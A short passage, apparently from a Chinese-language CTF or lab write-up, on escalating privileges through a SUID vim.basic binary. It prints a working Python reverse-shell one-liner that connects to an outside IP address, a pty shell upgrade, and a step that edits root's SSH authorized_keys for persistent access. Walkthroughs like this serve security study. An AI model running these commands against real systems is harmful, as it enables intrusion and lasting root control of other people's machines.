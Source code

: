![QQ_1723638524162](images/5.png)

发现vim.basic有suid权限，这个就相当于我们可以以root的身份编辑文件了，可以尝试写ssh的authorized_keys

但是需要获取一个交互式的shell，我用bash并没有反弹成功，考虑python或者perl

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.93.248.221",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

继续升级到交互式shell
python3 -c "import pty;pty.spawn('/bin/bash')"
```

写入ssh

```
vim.basic /root/.ssh/authorized_keys
```
